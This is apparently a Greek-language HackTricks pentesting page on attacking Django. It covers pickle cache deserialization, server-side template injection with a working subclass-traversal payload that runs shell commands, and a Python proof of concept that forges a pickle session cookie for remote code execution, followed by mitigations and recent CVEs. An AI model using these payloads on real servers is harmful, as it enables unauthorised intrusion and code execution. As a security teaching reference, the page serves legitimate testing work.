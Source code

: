 # Django

{{#include ../../banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Η προεπιλεγμένη μέθοδος αποθήκευσης cache του Django είναι [Python pickles](https://docs.python.org/3/library/pickle.html), η οποία μπορεί να οδηγήσει σε RCE αν [μη αξιόπιστα δεδομένα αποσυμπιεστούν](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Αν ένας επιτιθέμενος μπορέσει να αποκτήσει δικαιώματα εγγραφής στην cache, μπορεί να κλιμακώσει αυτή την ευπάθεια σε RCE στον υποκείμενο διακομιστή**.

Η cache του Django αποθηκεύεται σε μία από τέσσερις τοποθεσίες: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [μνήμη](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [αρχεία](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), ή μια [βάση δεδομένων](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Η cache που αποθηκεύεται σε έναν διακομιστή Redis ή σε μια βάση δεδομένων είναι οι πιο πιθανές διαδρομές επίθεσης (Redis injection και SQL injection), αλλά ένας επιτιθέμενος μπορεί επίσης να είναι σε θέση να χρησιμοποιήσει την cache βασισμένη σε αρχεία για να μετατρέψει μια αυθαίρετη εγγραφή σε RCE. Οι συντηρητές έχουν χαρακτηρίσει αυτό ως μη ζήτημα. Είναι σημαντικό να σημειωθεί ότι ο φάκελος αρχείων cache, το όνομα πίνακα SQL και οι λεπτομέρειες του διακομιστή Redis θα διαφέρουν ανάλογα με την υλοποίηση.

Αυτή η αναφορά του HackerOne παρέχει ένα εξαιρετικό, αναπαραγώγιμο παράδειγμα εκμετάλλευσης της cache του Django που αποθηκεύεται σε μια βάση δεδομένων SQLite: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
Η Γλώσσα Προτύπων Django (DTL) είναι **Turing-complete**. Αν τα δεδομένα που παρέχονται από τον χρήστη αποδοθούν ως *string προτύπου* (για παράδειγμα καλώντας `Template(user_input).render()` ή όταν το `|safe`/`format_html()` αφαιρεί την αυτόματη απόδραση), ένας επιτιθέμενος μπορεί να επιτύχει πλήρη SSTI → RCE.

### Detection
1. Αναζητήστε δυναμικές κλήσεις σε `Template()` / `Engine.from_string()` / `render_to_string()` που περιλαμβάνουν *οποιαδήποτε* μη απολυμασμένα δεδομένα αιτήματος.
2. Στείλτε ένα payload βασισμένο σε χρόνο ή αριθμητικό:
```django
{{7*7}}
```
Αν η αποδοθείσα έξοδος περιέχει `49`, η είσοδος έχει μεταγλωττιστεί από τον μηχανισμό προτύπων.

### Primitive to RCE
Ο Django αποκλείει την άμεση πρόσβαση στο `__import__`, αλλά το γραφικό αντικειμένων Python είναι προσβάσιμο:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Βρείτε τον δείκτη του `subprocess.Popen` (≈400–500 ανάλογα με την έκδοση του Python) και εκτελέστε αυθαίρετες εντολές:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Ένα πιο ασφαλές καθολικό εργαλείο είναι να επαναλαμβάνετε μέχρι `cls.__name__ == 'Popen'`.

Το ίδιο εργαλείο λειτουργεί για τις δυνατότητες απόδοσης προτύπων **Debug Toolbar** ή **Django-CMS** που χειρίζονται λανθασμένα την είσοδο του χρήστη.

---

## RCE με Cookie Συνεδρίας Βασισμένο σε Pickle
Εάν η ρύθμιση `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` είναι ενεργοποιημένη (ή ένας προσαρμοσμένος σειριαστής που αποσυμπιέζει pickle), το Django *αποκρυπτογραφεί και αποσυμπιέζει* το cookie συνεδρίας **πριν** καλέσει οποιονδήποτε κωδικό προβολής. Επομένως, η κατοχή ενός έγκυρου κλειδιού υπογραφής (το `SECRET_KEY` του έργου από προεπιλογή) είναι αρκετή για άμεση απομακρυσμένη εκτέλεση κώδικα.

### Απαιτήσεις Εκμετάλλευσης
* Ο διακομιστής χρησιμοποιεί `PickleSerializer`.
* Ο επιτιθέμενος γνωρίζει / μπορεί να μαντέψει το `settings.SECRET_KEY` (διαρροές μέσω GitHub, `.env`, σελίδες σφαλμάτων κ.λπ.).

### Απόδειξη της Έννοιας
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Στείλτε το αποτέλεσμα cookie, και το payload εκτελείται με τις άδειες του WSGI worker.

**Μειώσεις**: Διατηρήστε τον προεπιλεγμένο `JSONSerializer`, περιστρέψτε το `SECRET_KEY`, και ρυθμίστε το `SESSION_COOKIE_HTTPONLY`.

---

## Πρόσφατα (2023-2025) Υψηλής Επίδρασης CVEs Django που πρέπει να ελέγξουν οι Pentesters
* **CVE-2025-48432** – *Εισαγωγή Καταγραφής μέσω μη διαφυλαγμένου `request.path`* (διορθώθηκε 4 Ιουνίου 2025). Επιτρέπει στους επιτιθέμενους να μεταφέρουν νέες γραμμές/κωδικούς ANSI σε αρχεία καταγραφής και να δηλητηριάσουν την ανάλυση καταγραφής. Επίπεδο patch ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Κρίσιμη SQL injection* στο `QuerySet.values()/values_list()` στο `JSONField` (CVSS 9.8). Δημιουργήστε κλειδιά JSON για να σπάσετε την παράθεση και να εκτελέσετε αυθαίρετη SQL. Διορθώθηκε στην 4.2.15 / 5.0.8.

Πάντα να αναγνωρίζετε την ακριβή έκδοση του framework μέσω της σελίδας σφάλματος `X-Frame-Options` ή του hash του `/static/admin/css/base.css` και να δοκιμάζετε τα παραπάνω όπου είναι εφαρμόσιμο.

---

## Αναφορές
* Ασφαλής έκδοση Django – "Django 5.2.2, 5.1.10, 4.2.22 διευθύνει το CVE-2025-48432" – 4 Ιουνίου 2025.
* OP-Innovate: "Η Django κυκλοφορεί ενημερώσεις ασφαλείας για να αντιμετωπίσει την αδυναμία SQL injection CVE-2024-42005" – 11 Αυγούστου 2024.

{{#include ../../banners/hacktricks-training.md}}
